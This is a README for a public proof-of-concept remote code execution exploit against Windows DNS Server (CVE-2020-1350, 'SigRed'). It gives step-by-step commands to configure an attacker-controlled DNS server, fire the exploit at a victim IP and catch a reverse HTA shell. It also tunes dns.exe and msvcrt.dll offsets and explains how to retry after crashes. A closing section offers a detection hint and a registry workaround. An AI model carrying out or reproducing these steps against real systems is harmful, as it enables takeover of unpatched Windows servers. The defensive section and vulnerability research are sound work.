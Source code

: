 # PoC Remote Code Exection Exploit for CVE-2020-1350, SigRed.

by: [chompie](https://twitter.com/chompie1337)

***For research purposes only. Use at your own risk.***

## Lab Environment Setup

An attacker would set up an evil domain whose NS record points to a malicious server (attacker machine). 
For demo/testing purposes, just set up a conditional forwarder on the victim machine to forward "evil domain" requests to your attacker machine.

Tools -> DNS
![Alt text](images/forward.png?raw=true "Set up a forwarder")
![Alt text](images/ch0mpie.png?raw=true "Forwarding for ch0mpie.com")

On the Linux attacker machine: (I used a base Ubuntu 20.04.1 VM)

`sudo python3 configure.py -ip IP_ATTACKER -p PORT_REVERSE_SHELL -hp PORT_APACHE_SERVER (default 80)`

This configures the Apache server that the victim will download the reverse HTA shell.

## Running the Exploit

`sudo python3 evildns.py` 

Needs sudo to listen on UDP and TCP ports 53

Then run:

`python3 exploit.py -ip WINDNS_VICTIM_IP -d EVIL_DOMAIN`

Set the listener for the reverse shell:

`python3 reverse_shell/server.py -p PORT_REVERSE_SHELL`

HTA shell is modified version of:
https://github.com/freshness79/HTA-Shell

Note that the shell doesn't notify you when there is an incoming connection so you will have to try to type a command. 

## Supported Versions

This has been tested working on Windows Server 2019, 2016, 2012R2, and 2012 (x64 versions). Offsets for some versions of `dns.exe` and `msvcrt.dll` are located in `offsets.py`. This list is incomplete. If the version you are testing fails to find offsets, you can add the mapping there. 

`dns.exe` offset mapping: (last 12bits of the offset for `dns!RR_Free`, `` dns!`string` ``) : (offset of `dns!RR_Free`, `dns!NsecDnsRecordConvert`, `dns!_imp_exit`)
`msvcrt.dll` offset mapping: (last 12 bits of offset for `msvcrt!exit`): (offset of `msvcrt!exit`, offset of `msvcrt!system`)

***Note: In the case of an offset collision, you will have to make a selection of which set of offsets to choose. The DNS service will restart after about 5 minutes up to two times after a crash. You must restart `evildns.py` after each try. The exploit is stable, so the chance of successful "blind" exploitation is high.***

## Detecting Exploitation and Workaround Fix

This PoC includes a Grapl rule to detect exploitation of SigRed. To implement a rule for your preferred SIEM, look for invalid child processes of dns.exe.
```
reg add "HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Services\DNS\Parameters" /v "TcpReceivePacketSize" /t REG_DWORD /d 0xFF00 /f
net stop DNS && net start DNS
```
